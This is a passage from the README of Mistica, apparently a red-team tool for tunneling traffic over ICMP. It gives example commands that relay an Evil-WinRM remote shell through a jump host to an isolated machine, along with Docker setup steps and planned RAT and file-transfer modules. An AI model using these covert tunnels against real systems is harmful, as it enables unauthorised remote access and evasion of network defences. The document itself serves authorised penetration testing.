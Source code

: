 - [EvilWinrm](https://github.com/Hackplayers/evil-winrm) over ICMP using a jumping machine to access an isolated machine.
    - Mistica Server: `./ms.py -m tcplisten:icmp -s "--iface eth0" -k "rc4testkey" -o "--address 127.0.0.1 --port 5555 --persist" -vv`
    - Mistica Client: `python.exe .\mc.py -m tcpconnect:icmp -w "--hostname x.x.x.x" -k "rc4testkey" -o "--address x.x.x.x --port 5985 --persist" -vv`
    - EvilWinrm Console (on C2 machine): `evil-winrm -u Administrador -i 127.0.0.1 -P 5555`

## Docker

A Docker image has been created for local use. This avoids us having to install Python or dnslib only if we want to test the tool, it is also very interesting for debug or similar because we avoid the noise generated by other local applications. To build it we simply follow these steps:

* First build image with:
```
sudo docker build --tag mistica:latest .
```
* Second, create the network with:
```
sudo docker network create misticanw
```
* Third run the server with (**BEWARE of the volume, change the path to this directory**):
```
sudo docker run --network misticanw --sysctl net.ipv4.icmp_echo_ignore_all=1 -v /home/rcaro/gitlab/Mistica:/opt/Mistica -it mistica /bin/bash
```
* Fourth run the client with (**BEWARE of the volume, change the path to this directory**):
```
sudo docker run --network misticanw -v /home/rcaro/gitlab/Mistica:/opt/Mistica -it mistica /bin/bash
```

## Future work

- Transparent Diffie-Hellman key generation for SOTP protocol
- Payload Generator: Instead of using `./mc.py`, this will allow generating specific and minimalistic standalone binary clients with hardcoded parameters.
- Multi-Handler mode: Interactive mode for `ms.py`. This will let the user combine more than one overlay with more than one wrapper and more than one wrap module per wrap server.
- Module development documentation for custom module development. This is discouraged right now as module specification is still under development.
- Next modules:
    - HTTPS wrapper
    - SMB wrapper
    - RAT and RAT handler overlay
    - SOCKS proxy and dynamic port forwarding overlay
    - File Transfer overlay
- Custom HTTP templates for more complex encapsulation
- SOTP protocol specification documentation for custom clients or servers. This is discouraged right now as the protocol is still under development.

## Authors and license
